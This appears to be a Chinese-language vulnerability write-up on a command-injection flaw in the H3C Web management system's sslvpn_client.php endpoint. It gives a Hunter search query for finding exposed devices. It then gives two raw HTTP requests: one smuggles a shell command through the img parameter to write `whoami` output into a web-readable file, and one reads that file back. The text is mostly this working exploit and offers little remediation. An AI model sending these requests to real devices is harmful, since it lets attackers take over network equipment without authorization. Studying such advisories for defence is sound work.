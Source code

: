 # H3CWeb网管登录系统sslvpn_client存在命令执行漏洞

# 一、漏洞简介
H3C用户网管登录系统sslvpn_client存在命令执行漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ H3C用户网管登录系统

# 三、资产测绘
+ hunter`app.name=="H3C Web 网管"`
+ 特征

![1701757610344-1df9adee-96b0-44a3-b3fe-1dd053b0ebd2.png](./img/9iCDf0Y97piuySfp/1701757610344-1df9adee-96b0-44a3-b3fe-1dd053b0ebd2-032911.png)

# 四、漏洞复现
```java
GET /sslvpn/sslvpn_client.php?client=logoImg&img=x%20/tmp|echo%20%60whoami%60%20|tee%20/usr/local/webui/sslvpn/ceshi.txt|ls HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701757665612-01db350b-d4ee-40d2-ac84-bdcc020341e8.png](./img/9iCDf0Y97piuySfp/1701757665612-01db350b-d4ee-40d2-ac84-bdcc020341e8-786975.png)

获取命令执行结果

```java
GET /sslvpn/ceshi.txt HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Host: xx.xx.xx.xx
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
```

![1701754995310-190a24ff-8343-4b7e-9499-43cb74c7d076.png](./img/9iCDf0Y97piuySfp/1701754995310-190a24ff-8343-4b7e-9499-43cb74c7d076-784276.png)



> 更新: 2024-02-29 23:57:19  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ds6b5achi2o9k5hl>